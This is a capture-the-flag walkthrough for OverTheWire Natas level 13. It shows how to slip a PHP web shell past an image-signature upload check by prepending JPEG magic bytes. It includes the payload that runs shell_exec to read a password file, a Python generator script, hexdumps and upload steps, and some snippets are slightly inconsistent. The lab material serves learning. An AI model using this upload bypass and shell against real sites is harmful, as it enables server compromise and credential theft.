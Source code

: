 # NATAS13

## Step 1: View the source code
The only difference between this level and natas12 is the line where the file is checked for an image signature.  If you click "View Source Code" at http://natas13.natas.labs.overthewire.org/index-source.html, you'll see this function:

```javascript

    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```
The documentation for exif_imagetype() is available at php.net:
http://php.net/manual/en/function.exif-imagetype.php

Reading through the documentation, we see that it "reads the first bytes of an image and checks its signature."  Thus, we need to find a way to fake an image signature.

An astute observer might also note that the server script isn't checking for file extensions.  A php script just like the one used for natas12 will be interpreted by the webserver because of it's file extension and ignore anything else like the signature of an image until it reaches the opening '<?php' that indicates a script to follow.

## Step 2: Fake an image file signature
There are plenty of websites on the internet that provide file signatures for various image formats.  A cursory search engine query will turn up something you can use.  The initial mistake I made was thinking I could open up a file and write hex values by hand.  This was my payload:
```php
FFD8FFE0
<?php
$password = shell_exec("cat /etc/natas_webpass/natas13");
echo "<pre>$output</pre>";
?>
```

I tried to prepend a jpeg signature to my php script and found that it still didn't fool the exif_imagetype() function.  So I grabbed a jpeg file from my laptop and did a hexdump:

```bash
~# hexdump image.jpeg
0000000 ff d8 ff e0 00 10 4a 46 49 46 00 01 01 00 00 01
```
Then I tried the same thing on my malfunctioning payload:
```
~# hexdump test.php
0000000 46 46 44 38 46 46 45 30 0a 3c 3f 70 68 70 0a 24
0000010 70 61 73 73 77 6f 72 64 20 3d 20 73 68 65 6c 6c
0000020 5f 65 78 65 63 28 22 63 61 74 20 2f 65 74 63 2f
0000030 6e 61 74 61 73 5f 77 65 62 70 61 73 73 2f 6e 61
0000040 74 61 73 31 33 22 29 3b 0a 65 63 68 6f 20 22 3c
0000050 70 72 65 3e 24 6f 75 74 70 75 74 3c 2f 70 72 65
0000060 3e 22 3b 0a 3f 3e 0a
0000067
```
Okay, so I can't write that by hand.  A little online research suggested writing some code to do it for me:
```python
#!/bin/python
fp = open("test.php",'w')
fp.write('\xFF\xD8\xFF\xE0' + 'shell_exec("cat /etc/natas_webpass/natas14");')
fp.close()
```
So then I opened up my file with an editor:
```php
ÿØÿà<?php print shell_exec("cat /etc/natas_webpass/natas14"); ?>
```
Those weird characters before my php script are the binary hex values that we were looking for.
Just to confirm, I took a look at the file in hexdump again:
```bash
~# hexdump test.php
0000000 ff d8 ff e0 3c 3f 70 68 70 20 70 72 69 6e 74 20
0000010 73 68 65 6c 6c 5f 65 78 65 63 28 22 63 61 74 20
0000020 2f 65 74 63 2f 6e 61 74 61 73 5f 77 65 62 70 61
0000030 73 73 2f 6e 61 74 61 73 31 34 22 29 3b 20 3f 3e
0000040 0a
0000041
```
It worked.  Now lets see if we can fool the server.

## Step 3: Upload your payload

Just upload the working file you just created, and sure enough, we got past the filter.  Natas13 gave us a link to our new file.  Follow the link, copy the password - making sure to not copy the first 4 values (those are the binary hex values used to fake the image signature).
